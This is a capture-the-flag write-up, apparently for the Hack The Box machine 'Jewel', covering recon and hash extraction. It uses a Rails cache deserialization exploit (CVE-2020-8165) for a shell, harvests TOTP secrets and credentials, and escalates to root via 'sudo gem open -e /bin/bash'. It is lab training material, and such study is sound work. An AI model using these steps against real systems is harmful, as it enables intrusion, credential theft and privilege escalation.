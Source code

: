 # Jewel
This box is a Linux one made by polarbearer and its IP is 10.10.10.211.
We start with an nmap scan:

```
$ nmap -p- -sC -sV -oA nmap/complete 10.10.10.211
```

Weirdly, nmap comes back with:

```
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
```

We run the same command as before with -Pn and have results;
Ports shows:
22/tcp ssh with Debian 10 banner;
8000/tcp http Apache htppd with banner "gitweb/2.20.1 git/2.20.1"
8080/tcp http nginx 1.14.2 (Phusion Passenger 6.0.6) with title "BLOG!" and
host name "jewel.htb". We add `jewel.htb` to our hosts file, then check said
blog:

```
$ echo "10.10.10.211    jewel.htb" >> /etc/hosts
```


Blog shows a few weirdly wrote articles, some lorem ipsum. We add
the 2 authors, "bill" and "jennifer" to our users.txt file.
After digging in JS files it looks like the "BL0G" application is written
in Ruby On Rails.

The gitweb application running on port 8000 shows us the code of the BL0G
application. We'll dig into that for creds, or anything useful;

```
2020-09-17	bill	Initial commit master	commit | commitdiff | tree | snapshot
```
Let's download the whole app via the proposed snapshot:

```
$ mv ~/Downloads/git-5d6f436.tar.gz .
$ tar -xvzf git-5d6f436.tar.gz
...
$ mv .git-5d6f436/ bl0g
$ cd bl0g
```

We find ̀`bd.sql` file which is a dump of the PostgreSQL db used by the bl0g.
Digging in, we find these:

```
COPY public.users (id, username, email, created_at, updated_at, password_digest) FROM stdin;
1       bill    bill@mail.htb   2020-08-25 08:13:58.662464      2020-08-25 08:13:58.662464      $2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW
2       jennifer        jennifer@mail.htb       2020-08-25 08:54:42.8483        2020-08-25 08:54:42.8483        $2a$12$ik.0o.TGRwMgUmyOR.Djzuyb/hjisgk2vws1xYC/hxw8M1nFk0MQy
```

We got hashes for accounts bill@mail.htb & jennifer@mail.htb.
Hashes.org seems down atm and hashes.com didn't find any results for these.
We'll have to crack them ourselves using hashcat.
On my host (because i don't have ippsec's kracken...):
We searched and found "$2*$" corresponds to Bcrypt Blowfish hash
mode 3200 for hashcat

```
$ ./hashcat.exe -m 3200 hashes/jewel.hashes ./wordlists/rockyou.txt
```
With my current rig, hashcat estimates 4 days, 7 hours before completion.
That sucks.

Hashes.org is back. No results for these hashes though.
Seems to be an intended rabbit hole, otherwise the hashes wouldn't be bcrypt.
Digging more into the app's Gemfile, looking for CVE's of byebug (idea was to
exploit some debugging tools on what seems to be an on-development app?)
I found CVE-2019-5418 which could lead to RCE, but i wasn't able
to exfil /etc/passwd as presented in the Github's advisory. Then found out
there was a Metasploit module for it that told me the app wasn't vulnerable.

Found CVE-2020-8165 which applies to this project ; based on the advisory
found on Google Groups:

```
$ grep -R "cache.fetch"
app/controllers/application_controller.rb:      @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) do
app/controllers/users_controller.rb:      @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) {user_params[:username]}
```

Looking for exploits for this CVE i've stumbled on this github:
https://github.com/umiterkol/CVE-2020-8165--Auto-Shell/blob/main/CVE-2020-8165--Auto-Shell.py
First line was "#this script created for hackthebox jewel machine". Eh.
I guess the cat is now out of the box.

The exploit injects a Ruby object in the redis cache, which is executed when
the value is fetched from cache.
Using the script found up there, we open a netcat listener, and get a shell:

```
bill@jewel:~/blog$ cat ~/user.txt | wc -c
cat ~/user.txt | wc -c
33
```
We've owned user. Moving on to privilege escalation...

We upload linpeas.sh on the box, then exfil the output.

Linpeas.sh showed us the file ̀ /var/backups/dump_2020-08-27.sql` which
contains a different hash for user bill than the one previously found.
It is still a bcrypt hash, so cracking it will take time and hashes.org
has no candidates for it. HTB Forums says "don't be afraid of bcrypt", but
guess what i am.

Took a break, came back determined.

Running `ls -la` in bill's home directory, i found this:

```
bill@jewel:~$ cat .google_authenticator
cat .google_authenticator
2UQI3R52WFCLE6JTLDCSJYMJH4
" WINDOW_SIZE 17
" TOTP_AUTH
```

Looking at pam modules, we find sudo should be used with a TOTP password

```
bill@jewel:~$ cat /etc/pam.d/sudo
#%PAM-1.0

@include common-auth
@include common-account
@include common-session-noninteractive
auth	 required	pam_google_authenticator.so nullok
```

I've added a new ssh-key to bill's authorized keys to have a better
persistent shell.
Reading more Linpeas.out, i found some google api keys are set.
Checking /etc/ssh/sshd_config, i found that X11Forwarding is set.
Perhaps accessing bill's chromium on this server can yield data.
Manage to get X Forwarding working on chromium but no trace of bill's
account. Some "guest" user might exist, but has no password nor interesting
data.

I might've fucked up with the .config/chromium directory. I've reset
the box and i'll try again to poke the chromium installation.
That wasn't it. No accounts are logged in the chromium install.
I'm sure the box is about it though; there wouldn't be X11Forwarding Enabled
and .google_authenticator files for no reason... right ?
I've found a test/ folder and ChromeDriver is installed. I can't find any
tests on the blog's though, which is odd?

Found production creds in config/database.yml which weren't commited
```
rails_dev:beiw,aDoed1
```

Blog's "config/" directory has a "credentials.yml.enc" and "master.key" but
i don't know the type of encryption yet.
Using `EDITOR=vi rails credentials:edit` i was able to exfil the blog's
encrypted secret key:

```
secret_key_base: bc0315a1107dc1310f268c9bd7b06f13dfa6225ce35bcb85c77ee666e6c1aefa4758dee51403e3f60b6683d33eff54a6dc85f16b0346f2641c80f0a618c975b9
```

...

After Discord hints, we learned that bob's password could effectively be
cracked. I don't know why my hashcat attack didn't pick it up faster,
but bob's password was "spongebob", line 91 on rockyou.txt.
Next time i'll use john...

We can now try to ̀ sudo -l` as bill:
```
bill@jewel:~$ sudo -l
[sudo] password for bill: spongebob
Verification code:
```

This verification code is the TOTP found in .google-authenticator;

We set our box timezone and date to match the box settings:

```
$ sudo timedatectl set-timedate Europe/London
$ date --set 13:15:18
```
We then use a Firefox extension that will print us the TOTP  based
on our timezone, then use it to see what can be run by bill;

```
bill@jewel:~$ sudo -l
[sudo] password for bill:
Verification code:
Matching Defaults entries for bill on jewel:
    env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
	    insults

User bill may run the following commands on jewel:
    (ALL : ALL) /usr/bin/gem
    ```

We see that bill may run /usr/bin/gem as root. We'll abuse the "gem open"
command that should edit gems, and make it spawn a shell for us:

```
bill@jewel:~$ sudo gem open -e "/bin/bash -c /bin/bash" spring
root@jewel:/var/lib/gems/2.5.0/gems/spring-2.1.1# cat /root/root.txt | wc -c
33
```

We've owned the root account.
